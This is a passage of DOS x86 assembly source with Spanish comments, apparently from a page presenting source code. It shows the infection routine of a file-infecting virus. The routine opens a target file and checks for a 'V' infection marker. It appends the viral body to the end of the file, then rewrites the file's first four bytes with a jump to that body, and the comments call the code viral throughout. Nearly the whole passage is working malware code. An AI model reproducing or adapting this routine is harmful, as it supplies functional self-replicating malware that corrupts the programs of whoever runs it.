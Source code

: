 check_fail:     
    jmp close_file

check_ok:     
    mov ah, 3Dh                                      ; | AH = 3Dh  
    mov al, 2                                        ; | AL = 2, lectura y escritura  
    int 21h                                          ; |_DOS API - Abrir archivo existente 

    jc exit                                          ; si no se puede abrir archivo, restaurar y delegar  
    xchg ax, bx                                      ; handle de archivo en BX

    mov ah, 3Fh                                      ; | AH = 3Fh  
    xor cx, cx                                       ; |  
    mov ds, cx                                       ; | DS = 0  
    mov dx, V_OFFSET + offset host_head              ; | DS:DX -> destino: buffer para cabezal original  
    mov cx, 4                                        ; | CX = tamaño del cabezal, 4 bytes  
    int 21h                                          ; |_DOS API - Leer de archivo/dispositivo

    jc close_file                                    ; no se puede leer el archivo, cerrarlo

    cmp byte ptr ds:[V_OFFSET + host_head + 3], 'V'  ; comparar 4to byte con la firma viral 'V'  
    je close_file                                    ; si el archivo ya esta marcado, cerrarlo

    mov ah, 42h                                      ;| AH = 42h  
    mov al, 2                                        ;| AL = 2, fin del archivo  
    xor cx, cx                                       ;| CX = 0  
    xor dx, dx                                       ;| DX = 0  
    int 21h                                          ;|_DOS API - Establecer puntero en archivo 

    jc close_file                                    ; no se puede trabajar con el archivo, cerrarlo  
    mov ds:[V_OFFSET + file_size], ax

    mov ah, 40h                                      ; | AH = 40h  
    mov cx, VIRUS_SIZE                               ; | CX = tamaño del virus  
    mov dx, 200h                                     ; | DS:DX -> origen: inicio del código viral en IVT  
    int 21h                                          ; |_DOS API - Escribir en archivo/dispositivo 

    jc close_file                                    ; no se puede trabajar con el archivo, cerrarlo

    mov ax, ds:[V_OFFSET + file_size]                ; calcular el largo del JMP para el cabezal viral  
    sub ax, 3                                        ; restarle 3 bytes del near JMP  
    mov byte ptr ds:[V_OFFSET + tmp_head], 0E9h      ; construir cabezal viral en buffer temporal (E9h = near JMP)  
    mov word ptr ds:[V_OFFSET + tmp_head + 1], ax  
    mov byte ptr ds:[V_OFFSET + tmp_head + 3], 'V' 

    mov ah, 42h                                      ; | AH = 42h  
    mov al, 0                                        ; | AL = 0, principio del archivo  
    xor cx, cx                                       ; | CX = 0  
    xor dx, dx                                       ; | DX = 0  
    int 21h                                          ; |_DOS API - Establecer puntero en archivo 

    jc close_file                                    ; no se puede trabajar con el archivo, cerrarlo

    mov ah, 40h                                      ; | AH = 40h  
    mov cx, 4                                        ; | CX = tamaño del cabezal, 4 bytes  
    mov dx, V_OFFSET + offset tmp_head               ; | DS:DX -> origen: buffer temporal para cabezal viral  
    int 21h                                          ; |_DOS API - Escribir en archivo/dispositivo 

close_file:     
    mov ah, 3Eh                                      ; | AH = 3Eh  
    int 21h                                          ; |_DOS API - Cerrar archivo 

exit:     
    pop ds                                           ; restaurar registros y estado CPU  
    pop si  
    pop dx  